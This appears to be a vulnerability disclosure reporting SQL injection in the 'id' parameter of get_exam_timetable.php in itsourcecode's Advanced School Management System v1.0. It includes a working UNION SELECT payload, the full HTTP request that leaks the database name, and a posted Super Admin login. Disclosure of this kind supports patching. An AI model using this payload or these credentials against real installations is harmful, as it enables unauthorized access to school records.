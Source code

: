 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_exam_timetable.php?id=-

Vulnerability location: /school/model/get_exam_timetable.php?id=-,id

[+] Payload: /school/model/get_exam_timetable.php?id=-1%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_exam_timetable.php?id=-1%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971008-cf51e05e-4a80-46e9-b4cf-9be9d23f136c.png)
